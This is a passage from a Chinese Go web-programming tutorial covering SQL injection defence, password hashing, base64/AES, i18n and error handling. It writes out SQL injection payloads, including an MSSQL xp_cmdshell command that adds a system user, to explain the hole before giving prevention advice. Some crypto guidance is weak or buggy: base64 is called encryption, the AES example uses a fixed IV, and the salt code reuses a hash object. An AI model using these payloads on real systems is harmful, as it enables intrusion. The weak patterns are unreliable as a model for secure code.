sql:="SELECT * FROM user WHERE username='"+username+"' AND password='"+password+"'"
```

如果用户的输入的用户名如下，密码任意：

```sql
myuser' or 'foo' = 'foo' --
```

那么我们的 SQL 变成了如下所示：

```sql
SELECT * FROM user WHERE username='myuser' or 'foo' = 'foo' --'' AND password='xxx'
```

在 SQL 里面 `--` 是注释标记，所以查询语句会在此中断。这就让攻击者在不知道任何合法用户名和密码的情况下成功登录了。

对于 MSSQL 还有更加危险的一种 SQL 注入，就是控制系统，下面这个可怕的例子将演示如何在某些版本的 MSSQL 数据库上执行系统命令。

```go
sql:="SELECT * FROM products WHERE name LIKE '%"+prod+"%'"
Db.Exec(sql)
```

如果攻击提交 `a%' exec master..xp_cmdshell 'net user test testpass /ADD' --` 作为变量 prod 的值，那么 sql 将会变成：

```sql
sql:="SELECT * FROM products WHERE name LIKE '%a%' exec master..xp_cmdshell 'net user test testpass /ADD'--%'"
```

MSSQL 服务器会执行这条 SQL 语句，包括它后面那个用于向系统添加新用户的命令。如果这个程序是以 sa 运行而 MSSQLSERVER 服务又有足够的权限的话，攻击者就可以获得一个系统帐号来访问主机了。

> 虽然以上的例子是针对某一特定的数据库系统的，但是这并不代表不能对其它数据库系统实施类似的攻击。针对这种安全漏洞，只要使用不同方法，各种数据库都有可能遭殃。

#### 如何预防 SQL 注入

以下是一些防治 SQL 注入的建议：

1. 严格限制Web应用的数据库的操作权限，给此用户提供仅仅能够满足其工作的最低权限，从而最大限度的减少注入攻击对数据库的危害。
2. 检查输入的数据是否具有所期望的数据格式，严格限制变量的类型，例如使用regexp包进行一些匹配处理，或者使用strconv包对字符串转化成其他基本类型的数据进行判断。
3. 对进入数据库的特殊字符（'"\尖括号&*;等）进行转义处理，或编码转换。Go 的`text/template`包里面的`HTMLEscapeString`函数可以对字符串进行转义处理。
4. 所有的查询语句建议使用数据库提供的参数化查询接口，参数化的语句使用参数而不是将用户输入变量嵌入到SQL语句中，即不要直接拼接SQL语句。例如使用`database/sql`里面的查询函数`Prepare`和`Query`，或者`Exec(query string, args ...interface{})`。
5. 在应用发布之前建议使用专业的SQL注入检测工具进行检测，以及时修补被发现的SQL注入漏洞。网上有很多这方面的开源工具，例如sqlmap、SQLninja等。
6. 避免网站打印出SQL错误信息，比如类型错误、字段不匹配等，把代码里的SQL语句暴露出来，以防止攻击者利用这些错误信息进行SQL注入。


### e. 存储密码安全

#### 普通方案(md5)

目前用的最多的密码存储方案是将明文密码做单向哈希后存储，单向哈希算法有一个特征：无法通过哈希后的摘要(digest)恢复原始数据，这也是“单向”二字的来源。常用的单向哈希算法包括SHA-256, SHA-1, MD5等。

Go 语言对这三种加密算法的实现如下所示：

```go
//import "crypto/sha256"
h := sha256.New()
io.WriteString(h, "His money is twice tainted: 'taint yours and 'taint mine.")
fmt.Printf("% x", h.Sum(nil))

//import "crypto/sha1"
h := sha1.New()
io.WriteString(h, "His money is twice tainted: 'taint yours and 'taint mine.")
fmt.Printf("% x", h.Sum(nil))

//import "crypto/md5"
h := md5.New()
io.WriteString(h, "需要加密的密码")
fmt.Printf("%x", h.Sum(nil))
```

单向哈希有两个特性：

- 同一个密码进行单向哈希，得到的总是唯一确定的摘要
- 计算速度快。随着技术进步，一秒钟能够完成数十亿次单向哈希计算

结合上面两个特点，考虑到多数人所使用的密码为常见的组合，攻击者可以将所有密码的常见组合进行单向哈希，得到一个摘要组合, 然后与数据库中的摘要进行比对即可获得对应的密码。这个摘要组合也被称为 `rainbow table ` 。

因此通过单向加密之后存储的数据，和明文存储没有多大区别。因此，一旦网站的数据库泄露，所有用户的密码本身就大白于天下。

#### 进阶方案(md5+salt)

通过上面介绍我们知道黑客可以用`rainbow table`来破解哈希后的密码，很大程度上是因为加密时使用的哈希算法是公开的。如果黑客不知道加密的哈希算法是什么，那他也就无从下手了。

一个直接的解决办法是，自己设计一个哈希算法。然而，一个好的哈希算法是很难设计的——既要避免碰撞，又不能有明显的规律，做到这两点要比想象中的要困难很多。因此实际应用中更多的是利用已有的哈希算法进行多次哈希。

但是单纯的多次哈希，依然阻挡不住黑客。两次 MD5、三次 MD5之类的方法，我们能想到，黑客自然也能想到。特别是对于一些开源代码，这样哈希更是相当于直接把算法告诉了黑客。

没有攻不破的盾，但也没有折不断的矛。现在安全性比较好的网站，都会用一种叫做“加盐”的方式来存储密码，也就是常说的 “salt”。他们通常的做法是，先将用户输入的密码进行一次MD5（或其它哈希算法）加密；将得到的 MD5 值前后加上一些只有管理员自己知道的随机串，再进行一次MD5加密。这个随机串中可以包括某些固定的串，也可以包括用户名（用来保证每个用户加密使用的密钥都不一样）。

```go
//import "crypto/md5"
//假设用户名abc，密码123456
h := md5.New()
io.WriteString(h, "需要加密的密码")

//Sum 方法返回 MD5 加密后的值
//pwmd5等于e10adc3949ba59abbe56e057f20f883e
pwmd5 := fmt.Sprintf("%x", h.Sum(nil))

//指定两个 salt： salt1 = @#$%   salt2 = ^&*()
salt1 := "@#$%"
salt2 := "^&*()"

//salt1 + 用户名 + salt2 + MD5加密后的密码
username := "abc"
io.WriteString(h, salt1)
io.WriteString(h, username)
io.WriteString(h, salt2)
io.WriteString(h, pwmd5)

last := fmt.Sprintf("%x", h.Sum(nil))
```

在两个 salt 没有泄露的情况下，黑客如果拿到的是最后这个加密串，就几乎不可能推算出原始的密码是什么了。

#### 专家方案(scrypt)

上面的进阶方案在几年前也许是足够安全的方案，因为攻击者没有足够的资源建立这么多的`rainbow table`。 但是，时至今日，因为并行计算能力的提升，这种攻击已经完全可行。

怎么解决这个问题呢？只要时间与资源允许，没有破译不了的密码，所以方案是:故意增加密码计算所需耗费的资源和时间，使得任何人都不可获得足够的资源建立所需的`rainbow table`。

这类方案有一个特点，算法中都有个因子，用于指明计算密码摘要所需要的资源和时间，也就是计算强度。计算强度越大，攻击者建立`rainbow table`越困难，以至于不可继续。

这里推荐`scrypt`方案，scrypt是由著名的FreeBSD黑客Colin Percival为他的备份服务Tarsnap开发的。

目前Go语言里面支持的库 https://github.com/golang/crypto/tree/master/scrypt

```go
dk := scrypt.Key([]byte("some password"), []byte(salt), 16384, 8, 1, 32)
```

通过上面的方法可以获取唯一的相应的密码值，这是目前为止最难破解的。


### f. 加密与解密数据

#### base64 加解密

如果 Web 应用足够简单，数据的安全性没有那么严格的要求，那么可以采用一种比较简单的加解密方法是 `base64`，这种方式实现起来比较简单，Go 语言的 `base64` 包已经很好的支持了这个，请看下面的例子：

```go
package main

import (
	"encoding/base64"
	"fmt"
)

func base64Encode(src []byte) []byte {
	return []byte(base64.StdEncoding.EncodeToString(src))
}

func base64Decode(src []byte) ([]byte, error) {
	return base64.StdEncoding.DecodeString(string(src))
}

func main() {
	// encode
	hello := "你好，世界！ hello world"
	debyte := base64Encode([]byte(hello))
	// [53 76 50 103 53 97 87 57 55 55 121 77 53 76 105 87 53 53 87 77 55 55 121 66 73 71 104 108 98 71 120 118 73 72 100 118 99 109 120 107]
	fmt.Println(debyte)
	// decode
	enbyte, err := base64Decode(debyte)
	if err != nil {
		fmt.Println(err.Error())
	}

	if hello != string(enbyte) {
		fmt.Println("hello is not equal to enbyte")
	}
  // 你好，世界！ hello world
	fmt.Println(string(enbyte))
}
```

#### 高级加解密(AES/DES)

Go 语言的 `crypto` 里面支持对称加密的高级加解密包有：

- `crypto/aes`包：AES(Advanced Encryption Standard)，又称Rijndael加密法，是美国联邦政府采用的一种区块加密标准
- `crypto/des`包：DES(Data Encryption Standard)，是一种对称加密标准，是目前使用最广泛的密钥系统，特别是在保护金融数据的安全中。曾是美国联邦政府的加密标准，但现已被AES所替代

因为这两种算法使用方法类似，所以在此，我们仅用aes包为例来讲解它们的使用，请看下面的例子：

```go
package main

import (
	"crypto/aes"
	"crypto/cipher"
	"fmt"
	"os"
)

var commonIV = []byte{0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f}

func main() {
	//需要去加密的字符串
	plaintext := []byte("My name is szy")
	//如果传入加密串的话，plaint就是传入的字符串
	if len(os.Args) > 1 {
		plaintext = []byte(os.Args[1])
	}

	//aes的加密字符串
	key_text := "astaxie12798akljzmknm.ahkjkljl;k"
	if len(os.Args) > 2 {
		key_text = os.Args[2]
	}

	fmt.Println(len(key_text))

	// 创建加密算法aes
	c, err := aes.NewCipher([]byte(key_text))
	if err != nil {
		fmt.Printf("Error: NewCipher(%d bytes) = %s", len(key_text), err)
		os.Exit(-1)
	}

	//加密字符串
	cfb := cipher.NewCFBEncrypter(c, commonIV)
	ciphertext := make([]byte, len(plaintext))
	cfb.XORKeyStream(ciphertext, plaintext)
	fmt.Printf("%s=>%x\n", plaintext, ciphertext)

	// 解密字符串
	cfbdec := cipher.NewCFBDecrypter(c, commonIV)
	plaintextCopy := make([]byte, len(plaintext))
	cfbdec.XORKeyStream(plaintextCopy, ciphertext)
	fmt.Printf("%x=>%s\n", ciphertext, plaintextCopy)
}
```

上面通过调用函数 `aes.NewCipher` (参数 key 必须是16、24或者32位的 []byte，分别对应 AES-128, AES-192 或 AES-256 算法),返回了一个 `cipher.Block` 接口，这个接口实现了三个功能：

```go
type Block interface {
	// BlockSize returns the cipher's block size.
	BlockSize() int

	// Encrypt encrypts the first block in src into dst.
	// Dst and src may point at the same memory.
	Encrypt(dst, src []byte)

	// Decrypt decrypts the first block in src into dst.
	// Dst and src may point at the same memory.
	Decrypt(dst, src []byte)
}
```

这三个函数实现了加解密操作。


## *11. 国际化与本地化*

国际化与本地化（Internationalization and localization,通常用i18n和L10N表示），国际化是将针对某个地区设计的程序进行重构，以使它能够在更多地区使用，本地化是指在一个面向国际化的程序中增加对新地区的支持。

目前，Go语言的标准包没有提供对i18n的支持，但有一些比较简单的第三方实现，这一章我们将实现一个go-i18n库，用来支持Go语言的i18n。

所谓的国际化：就是根据特定的locale信息，提取与之相应的字符串或其它一些东西（比如时间和货币的格式）等等。这涉及到三个问题：

1、如何确定 locale ？

2、如何保存与 locale 相关的字符串或其它信息 ？

3、如何根据 locale 提取字符串和其它相应的信息 ？

以下三个小节将分别围绕这三个问题进行展开，以获得一个完整的 i18n 方案。

### a. 设置默认地区

#### 什么是 Locale

Locale 是一组描述世界上某一特定区域文本格式和语言习惯的设置的集合。locale 名通常由三个部分组成：第一部分，是一个强制性的，表示语言的缩写，例如 "en" 表示英文或 "zh" 表示中文。第二部分，跟在一个下划线之后，是一个可选的国家说明符，用于区分讲同一种语言的不同国家，例如 "en_US" 表示美国英语，而 "en_UK" 表示英国英语。最后一部分，跟在一个句点之后，是可选的字符集说明符，例如 "zh_CN.gb2312" 表示中国使用 gb2312 字符集。

GO 语言默认采用 "UTF-8" 编码集，所以我们实现 i18n 时不考虑第三部分，接下来我们都采用 locale 描述的前面两部分来作为 i18n 标准的 locale 名。

> 在 Linux 和 Solaris 系统中可以通过 `locale -a` 命令列举所有支持的地区名，读者可以看到这些地区名的命名规范。对于 BSD 等系统，没有 locale 命令，但是地区信息存储在 /usr/share/locale 中。

#### 设置 Locale

有了上面对 locale 的定义，那么我们就需要根据用户的信息(访问信息、个人信息、访问域名等)来设置与之相关的 locale，我们可以通过如下几种方式来设置用户的 locale。

##### 通过域名设置

设置 Locale 的办法之一是在应用运行的时候采用域名分级的方式，例如，我们采用 [www.asta.com](http://www.asta.com/) 当做我们的英文站(默认站)，而把域名 [www.asta.cn](http://www.asta.cn/) 当做中文站。这样通过在应用里面设置域名和相应的locale的对应关系，就可以设置好地区。这样处理有几点好处：

- 通过URL就可以很明显的识别
- 用户可以通过域名很直观的知道将访问那种语言的站点
- 在Go程序中实现非常的简单方便，通过一个map就可以实现
- 有利于搜索引擎抓取，能够提高站点的SEO

我们可以通过下面的代码来实现域名的对应 locale：

```go
if r.Host == "www.asta.com" {
	i18n.SetLocale("en")
} else if r.Host == "www.asta.cn" {
	i18n.SetLocale("zh-CN")
} else if r.Host == "www.asta.tw" {
	i18n.SetLocale("zh-TW")
}
```

当然除了整域名设置地区之外，我们还可以通过子域名来设置地区，例如"en.asta.com"表示英文站点，"cn.asta.com"表示中文站点。实现代码如下所示：

```go
prefix := strings.Split(r.Host,".")

if prefix[0] == "en" {
	i18n.SetLocale("en")
} else if prefix[0] == "cn" {
	i18n.SetLocale("zh-CN")
} else if prefix[0] == "tw" {
	i18n.SetLocale("zh-TW")
}
```

通过域名设置 Locale 有如上所示的优点，但是我们一般开发 Web 应用的时候不会采用这种方式，因为首先域名成本比较高，开发一个 Locale 就需要一个域名，而且往往统一名称的域名不一定能申请的到，其次我们不愿意为每个站点去本地化一个配置，而更多的是采用 url 后面带参数的方式。

##### 通过域名参数设置

目前最常用的设置 Locale 的方式是在 URL 里面带上参数，例如 [www.asta.com/hello?locale=zh](http://www.asta.com/hello?locale=zh) 或者 [www.asta.com/zh/hello](http://www.asta.com/zh/hello)。这样我们就可以设置地区：`i18n.SetLocale(params["locale"])`。

这种设置方式几乎拥有前面讲的通过域名设置 Locale 的所有优点，它采用 RESTful 的方式，以使得我们不需要增加额外的方法来处理。但是这种方式需要在每一个的 link 里面增加相应的参数 locale，这也许有点复杂而且有时候甚至相当的繁琐。不过我们可以写一个通用的函数 url，让所有的 link 地址都通过这个函数来生成，然后在这个函数里面增加 `locale=params["locale"]` 参数来缓解一下。

也许我们希望 URL 地址看上去更加的 RESTful 一点，例如：[www.asta.com/en/books](http://www.asta.com/en/books) (英文站点)和 [www.asta.com/zh/books](http://www.asta.com/zh/books)(中文站点)，这种方式的 URL 更加有利于 SEO，而且对于用户也比较友好，能够通过 URL 直观的知道访问的站点。那么这样的URL地址可以通过 router 来获取 locale (参考 REST 小节里面介绍的 router 插件实现)：

```go
mux.Get("/:locale/books", listbook)
```

##### 通过客户端设置

在一些特殊的情况下，我们需要根据客户端的信息而不是通过 URL 来设置 Locale，这些信息可能来自于客户端设置的喜好语言(浏览器中设置)，用户的 IP 地址，用户在注册的时候填写的所在地信息等。这种方式比较适合 Web 为基础的应用。

- Accept-Language

客户端请求的时候在 HTTP 头信息里面有 `Accept-Language`，一般的客户端都会设置该信息，下面是 Go 语言实现的一个简单的根据 `Accept-Language` 实现设置地区的代码：

```go
AL := r.Header.Get("Accept-Language")
if AL == "en" {
	i18n.SetLocale("en")
} else if AL == "zh-CN" {
	i18n.SetLocale("zh-CN")
} else if AL == "zh-TW" {
	i18n.SetLocale("zh-TW")
}
```

当然在实际应用中，可能需要更加严格的判断来进行设置地区：

- IP 地址

  另一种根据客户端来设定地区就是用户访问的IP，我们根据相应的IP库，对应访问的IP到地区，目前全球比较常用的就是GeoIP Lite Country这个库。这种设置地区的机制非常简单，我们只需要根据IP数据库查询用户的IP然后返回国家地区，根据返回的结果设置对应的地区。

- 用户 profile

  当然你也可以让用户根据你提供的下拉菜单或者别的什么方式的设置相应的locale，然后我们将用户输入的信息，保存到与它帐号相关的profile中，当用户再次登陆的时候把这个设置复写到locale设置中，这样就可以保证该用户每次访问都是基于自己先前设置的locale来获得页面。


### b. 本地化资源

设置好 Locale 之后我们需要解决的问题就是如何存储相应的 Locale 对应的信息呢？这里面的信息包括：文本信息、时间和日期、货币值、图片、包含文件以及视图等资源。那么接下来我们将对这些信息一一进行介绍，Go 语言中我们把这些格式信息存储在 JSON 中，然后通过合适的方式展现出来。(接下来以中文和英文两种语言对比举例：存储格式文件 en.json 和 zh-CN.json)

#### 本地化文本消息

文本信息是编写 Web 应用中最常用到的，也是本地化资源中最多的信息，想要以适合本地语言的方式来显示文本信息，可行的一种方案是：建立需要的语言相应的 map 来维护一个 key-value 的关系，在输出之前按需从适合的 map 中去获取相应的文本，如下是一个简单的示例：

```go
package main

import "fmt"

var locales map[string]map[string]string

func main() {
	locales = make(map[string]map[string]string, 2)
	en := make(map[string]string, 10)
	en["pea"] = "pea"
	en["bean"] = "bean"
	locales["en"] = en
	cn := make(map[string]string, 10)
	cn["pea"] = "豌豆"
	cn["bean"] = "毛豆"
	locales["zh-CN"] = cn
	lang := "zh-CN"
	fmt.Println(msg(lang, "pea"))
	fmt.Println(msg(lang, "bean"))
}

func msg(locale, key string) string {
	if v, ok := locales[locale]; ok {
		if v2, ok := v[key]; ok {
			return v2
		}
	}
	return ""
}
```

上面示例演示了不同 locale 的文本翻译，实现了中文和英文对于同一个 key 显示不同语言的实现，上面实现了中文的文本消息，如果想切换到英文版本，只需要把 lang 设置为 en 即可。

有些时候仅是 key-value 替换是不能满足需要的，例如 "I am 30 years old"，中文表达是"我今年30岁了"，而此处的30是一个变量，该怎么办呢？这个时候，我们可以结合 `fmt.Sprintf` 函数来实现，请看下面的代码：

```go
en["how old"] ="I am %d years old"
cn["how old"] ="我今年%d岁了"

fmt.Sprintf(msg(lang, "how old"), 30)
```

上面的示例代码仅用以演示内部的实现方案，而实际数据是存储在 JSON 里面的，所以我们可以通过 `json.Unmarshal` 来为相应的 map 填充数据。

#### 本地化日期和时间

因为时区的关系，同一时刻，在不同的地区，表示是不一样的，而且因为Locale的关系，时间格式也不尽相同，例如中文环境下可能显示：`2012年10月24日 星期三 23时11分13秒 CST`，而在英文环境下可能显示:`Wed Oct 24 23:11:13 CST 2012`。这里面我们需要解决两点:

1. 时区问题
2. 格式问题

$GOROOT/lib/time包中的timeinfo.zip含有locale对应的时区的定义，为了获得对应于当前locale的时间，我们应首先使用`time.LoadLocation(name string)`获取相应于地区的locale，比如`Asia/Shanghai`或`America/Chicago`对应的时区信息，然后再利用此信息与调用`time.Now`获得的Time对象协作来获得最终的时间。详细的请看下面的例子(该例子采用上面例子的一些变量):

```go
en["time_zone"]="America/Chicago"
cn["time_zone"]="Asia/Shanghai"

loc,_:=time.LoadLocation(msg(lang,"time_zone"))
t:=time.Now()
t = t.In(loc)
fmt.Println(t.Format(time.RFC3339))
```

我们可以通过类似处理文本格式的方式来解决时间格式的问题，举例如下:

```go
en["date_format"]="%Y-%m-%d %H:%M:%S"
cn["date_format"]="%Y年%m月%d日 %H时%M分%S秒"

fmt.Println(date(msg(lang,"date_format"),t))

func date(fomate string,t time.Time) string{
	year, month, day = t.Date()
	hour, min, sec = t.Clock()
	//解析相应的%Y %m %d %H %M %S然后返回信息
	//%Y 替换成2012
	//%m 替换成10
	//%d 替换成24
}
```

#### 本地化货币值

各个地区的货币表示也不一样，处理方式也与日期差不多，细节请看下面代码：

```go
en["money"] ="USD %d"
cn["money"] ="￥%d元"

fmt.Println(money_format(msg(lang, "date_format"), 100))

func money_format(fomate string, money int64) string{
	return fmt.Sprintf(fomate, money)
}
```

#### 本地化视图和资源

我们可能会根据 Locale 的不同来展示视图，这些视图包含不同的 image、css、js 等各种静态资源。那么应如何来处理这些信息呢？首先我们应按 locale 来组织文件信息，请看下面的文件目录安排：

```go
views
|--en  //英文模板
	|--images     //存储图片信息
	|--js         //存储JS文件
	|--css        //存储css文件
	index.tpl     //用户首页
	login.tpl     //登陆首页
|--zh-CN //中文模板
	|--images
	|--js
	|--css
	index.tpl
	login.tpl
```

有了这个目录结构后我们就可以在渲染的地方这样来实现代码：

```go
s1, _ := template.ParseFiles("views/"+lang+"/index.tpl")
VV.Lang=lang
s1.Execute(os.Stdout, VV)
```

而对于里面的 index.tpl 里面的资源设置如下：

```go
// js文件
<script type="text/javascript" src="views/{{.Lang}}/js/jquery/jquery-1.8.0.min.js"></script>
// css文件
<link href="views/{{.Lang}}/css/bootstrap-responsive.min.css" rel="stylesheet">
// 图片文件

```

采用这种方式来本地化视图以及资源时，我们就可以很容易的进行扩展了。


### c. 国际化站点

#### 管理多个本地包

在开发一个应用的时候，首先我们要决定是只支持一种语言，还是多种语言，如果要支持多种语言，我们则需要制定一个组织结构，以方便将来更多语言的添加。在此我们设计如下：Locale 有关的文件放置在 config/locales 下，假设你要支持中文和英文，那么你需要在这个文件夹下放置 en.json 和 zh.json 。大概的内容如下所示：

```json
# zh.json

{
"zh": {
	"submit": "提交",
	"create": "创建"
	}
}

# en.json

{
"en": {
	"submit": "Submit",
	"create": "Create"
	}
}
```

为了支持国际化，在此我们使用了一个国际化相关的包 — [go-i18n](https://github.com/astaxie/go-i18n)，首先我们向 go-i18n 包注册 config/locales 这个目录，以加载所有的 locale 文件：

```go
Tr:=i18n.NewLocale()
Tr.LoadPath("config/locales")
```

这个包使用起来很简单，你可以通过下面的方式进行测试：

```go
//输出Submit
fmt.Println(Tr.Translate("submit"))
Tr.SetLocale("zh")
//输出“提交”
fmt.Println(Tr.Translate("submit"))
```

#### 自动加载本地包

上面我们介绍了如何手动加载自定义语言包，其实 go-i18n 库已经预加载了很多默认的格式信息，例如时间格式、货币格式，用户可以在自定义配置时改写这些默认配置，请看下面的处理过程：

```go
//加载默认配置文件，这些文件都放在go-i18n/locales下面
//文件命名zh.json、en.json、en-US.json等，可以不断的扩展支持更多的语言
func (il *IL) loadDefaultTranslations(dirPath string) error {
	dir, err := os.Open(dirPath)
	if err != nil {
		return err
	}
	defer dir.Close()

	names, err := dir.Readdirnames(-1)
	if err != nil {
		return err
	}

	for _, name := range names {
		fullPath := path.Join(dirPath, name)

		fi, err := os.Stat(fullPath)
		if err != nil {
			return err
		}
    //如果是文件夹
		if fi.IsDir() {
			if err := il.loadTranslations(fullPath); err != nil {
				return err
			}
		} else if locale := il.matchingLocaleFromFileName(name); locale != "" {
      //如果是单个文件
			file, err := os.Open(fullPath)
			if err != nil {
				return err
			}
			defer file.Close()

			if err := il.loadTranslation(file, locale); err != nil {
				return err
			}
		}
	}

	return nil
}
```

通过上面的方法加载配置信息到默认的文件，这样我们就可以在我们没有自定义时间信息的时候执行如下的代码获取对应的信息：

```go
//locale=zh的情况下，执行如下代码：

fmt.Println(Tr.Time(time.Now()))
//输出：2009年1月08日 星期四 20:37:58 CST

fmt.Println(Tr.Time(time.Now(),"long"))
//输出：2009年1月08日

fmt.Println(Tr.Money(11.11))
//输出:￥11.11
```

#### template mapfunc

如果我们想在模板中去调用一些函数去获取国际化资源，那么我们可以通过 Go 语言的自定义模板函数来实现。

1. **文本信息**

文本信息调用 `Tr.Translate` 来实现相应的信息转换，mapFunc 的实现如下：

```go
func I18nT(args ...interface{}) string {
	ok := false
	var s string
	if len(args) == 1 {
		s, ok = args[0].(string)
	}
	if !ok {
		s = fmt.Sprint(args...)
	}
	return Tr.Translate(s)
}
```

注册函数如下：

```go
t.Funcs(template.FuncMap{"T": I18nT})
```

模板中使用如下：

```html
{{.V.Submit | T}}
```

2. **时间日期**

时间日期调用 `Tr.Time` 函数来实现相应的时间转换，mapFunc 的实现如下：

```go
func I18nTimeDate(args ...interface{}) string {
	ok := false
	var s string
	if len(args) == 1 {
		s, ok = args[0].(string)
	}
	if !ok {
		s = fmt.Sprint(args...)
	}
	return Tr.Time(s)
}
```

注册函数如下：

```go
t.Funcs(template.FuncMap{"TD": I18nTimeDate})
```

模板中使用如下：

```html
{{.V.Now | TD}}
```

3. **货币信息**

货币调用 `Tr.Money` 函数来实现相应的时间转换，mapFunc 的实现如下：

```go
func I18nMoney(args ...interface{}) string {
	ok := false
	var s string
	if len(args) == 1 {
		s, ok = args[0].(string)
	}
	if !ok {
		s = fmt.Sprint(args...)
	}
	return Tr.Money(s)
}
```

注册函数如下：

```go
t.Funcs(template.FuncMap{"M": I18nMoney})
```

模板中使用如下：

```html
{{.V.Money | M}}
```


## *12. 错误处理/调试/测试*

### a. 错误处理

#### Error 类型

error 类型是一个接口类型，这是它的定义：

```go
type error interface {
	Error() string
}
```

error 是一个内置的接口类型，我们可以在 /builtin/ 包下面找到相应的定义。而我们在很多内部包里面用到的  error 是 errors 包下面的实现的私有结构 errorString：

```go
// errorString is a trivial implementation of error.
type errorString struct {
	s string
}

func (e *errorString) Error() string {
	return e.s
}
```

你可以通过 `errors.New` 把一个字符串转化为 errorString，以得到一个满足接口 error 的对象，其内部实现如下：

```go
// New returns an error that formats as the given text.
func New(text string) error {
	return &errorString{text}
}
```

下面这个例子演示了如何使用 `errors.New`:

```go
func Sqrt(f float64) (float64, error) {
	if f < 0 {
		return 0, errors.New("math: square root of negative number")
	}
	// implementation
}
```

在下面的例子中，我们在调用 Sqrt 的时候传递的一个负数，然后就得到了 non-nil 的 error 对象，将此对象与 ni l比较，结果为 true，所以 fmt.Println (fmt 包在处理 error 时会调用 Error 方法) 被调用，以输出错误。请看下面调用的示例代码：

```go
f, err := Sqrt(-1)
if err != nil {
    fmt.Println(err)
}	
```

#### 自定义 Error

通过上面的介绍我们知道 error 是一个 interface，所以在实现自己的包的时候，通过定义实现此接口的结构，我们就可以实现自己的错误定义，请看来自 Json 包的示例：

```go
type SyntaxError struct {
	msg    string // 错误描述
	Offset int64  // 错误发生的位置
}

func (e *SyntaxError) Error() string { return e.msg }
```

Offset 字段在调用 Error 的时候不会被打印，但是我们可以通过类型断言获取错误类型，然后可以打印相应的错误信息，请看下面的例子：

```go
if err := dec.Decode(&val); err != nil {
	if serr, ok := err.(*json.SyntaxError); ok {
		line, col := findLine(f, serr.Offset)
		return fmt.Errorf("%s:%d:%d: %v", f.Name(), line, col, err)
	}
	return err
}
```

需要注意的是，函数返回自定义错误时，返回值推荐设置为 error 类型，而非自定义错误类型，特别需要注意的是不应预声明自定义错误类型的变量。例如：

```go
func Decode() *SyntaxError { // 错误，将可能导致上层调用者err!=nil的判断永远为true。
  var err *SyntaxError  // 预声明错误变量
  if 出错条件 {
      err = &SyntaxError{}
  }
  return err  // 错误，err永远等于非nil，导致上层调用者err!=nil的判断始终为true
}
```

原因见 http://golang.org/doc/faq#nil_error 或者 https://www.jianshu.com/p/dd80f6be7969 ，简要来说，**interface 并不是一个指针，它的底层实现由两部分组成，一个是类型，一个值，也就是类似于：(Type, Value) 。只有当类型和值都是 `nil` 的时候，才等于 `nil` 。**

上面例子简单的演示了如何自定义 Error 类型。但是如果我们还需要更复杂的错误处理呢？此时，我们来参考一下 net 包采用的方法：

```go
package net

type Error interface {
    error
    Timeout() bool   // Is the error a timeout?
    Temporary() bool // Is the error temporary?
}
```

在调用的地方，通过类型断言 err 是不是 net.Error，来细化错误的处理，例如下面的例子，如果一个网络发生临时性错误，那么将会 sleep 1秒之后重试：

```go
if nerr, ok := err.(net.Error); ok && nerr.Temporary() {
	time.Sleep(1e9)
	continue
}
if err != nil {
	log.Fatal(err)
}
```

#### 错误处理

Go 在错误处理上采用了与 C 类似的检查返回值的方式，而不是其他多数主流语言采用的异常方式，这造成了代码编写上的一个很大的缺点：错误处理代码的冗余，对于这种情况是我们通过复用检测函数来减少类似的代码。

请看下面这个例子代码：

```go
func init() {
	http.HandleFunc("/view", viewRecord)
}

func viewRecord(w http.ResponseWriter, r *http.Request) {
	c := appengine.NewContext(r)
	key := datastore.NewKey(c, "Record", r.FormValue("id"), 0, nil)
	record := new(Record)
	if err := datastore.Get(c, key, record); err != nil {
		http.Error(w, err.Error(), 500)
		return
	}
	if err := viewTemplate.Execute(w, record); err != nil {
		http.Error(w, err.Error(), 500)
	}
}
```

上面的例子中获取数据和模板展示调用时都有检测错误，当有错误发生时，调用了统一的处理函数 `http.Error`，返回给客户端 500 错误码，并显示相应的错误数据。但是当越来越多的 HandleFunc 加入之后，这样的错误处理逻辑代码就会越来越多，其实我们可以通过自定义路由器来缩减代码 (实现思路可以参考上文提到的 [http ServeMux(路由器)实现](#http ServeMux(路由器)实现)) 。

```go
type appHandler func(http.ResponseWriter, *http.Request) error

func (fn appHandler) ServeHTTP(w http.ResponseWriter, r *http.Request) {
	if err := fn(w, r); err != nil {
		http.Error(w, err.Error(), 500)
	}
}
```

上面我们定义了自定义的路由器，然后我们可以通过如下方式来注册函数：

```go
func init() {
	http.Handle("/view", appHandler(viewRecord))
}
```

当请求 /view 的时候我们的逻辑处理可以变成如下代码，和第一种实现方式相比较已经简单了很多。

```go
func viewRecord(w http.ResponseWriter, r *http.Request) error {
	c := appengine.NewContext(r)
	key := datastore.NewKey(c, "Record", r.FormValue("id"), 0, nil)
	record := new(Record)
	if err := datastore.Get(c, key, record); err != nil {
		return err
	}
	return viewTemplate.Execute(w, record)
}
```

上面的例子错误处理的时候所有的错误返回给用户的都是 500 错误码，然后打印出来相应的错误代码，其实我们可以把这个错误信息定义的更加友好，调试的时候也方便定位问题，我们可以自定义返回的错误类型：

```go
type appError struct {
	Error   error
	Message string
	Code    int
}
```

这样我们的自定义路由器可以改成如下方式：

```go
type appHandler func(http.ResponseWriter, *http.Request) *appError

func (fn appHandler) ServeHTTP(w http.ResponseWriter, r *http.Request) {
	if e := fn(w, r); e != nil { // e is *appError, not os.Error.
		c := appengine.NewContext(r)
		c.Errorf("%v", e.Error)
		http.Error(w, e.Message, e.Code)
	}
}
```

这样修改完自定义错误之后，我们的逻辑处理可以改成如下方式：

```go
func viewRecord(w http.ResponseWriter, r *http.Request) *appError {
	c := appengine.NewContext(r)
	key := datastore.NewKey(c, "Record", r.FormValue("id"), 0, nil)
	record := new(Record)
	if err := datastore.Get(c, key, record); err != nil {
		return &appError{err, "Record not found", 404}
	}
	if err := viewTemplate.Execute(w, record); err != nil {
		return &appError{err, "Can't display record", 500}
	}
	return nil
}
```


### b. 调试

* [Goland 调试教程](https://studygolang.com/articles/20746)
* [使用 Delve 进行 Golang 代码的调试](https://yq.aliyun.com/articles/57578)
* [使用 GDB 调试 Golang 代码](https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/11.2.md)


### c. 测试

Go 语言中自带有一个轻量级的测试框架 `testing` 和自带的 `go test` 命令来实现单元测试和性能测试，`testing` 框架和其他语言中的测试框架类似，你可以基于这个框架写针对相应函数的测试用例，也可以基于该框架写相应的压力测试用例。

另外建议安装 [gotests](https://github.com/cweill/gotests) 插件自动生成测试代码：

```go
go get -u -v github.com/cweill/gotests
```

#### 如何编写单元测试

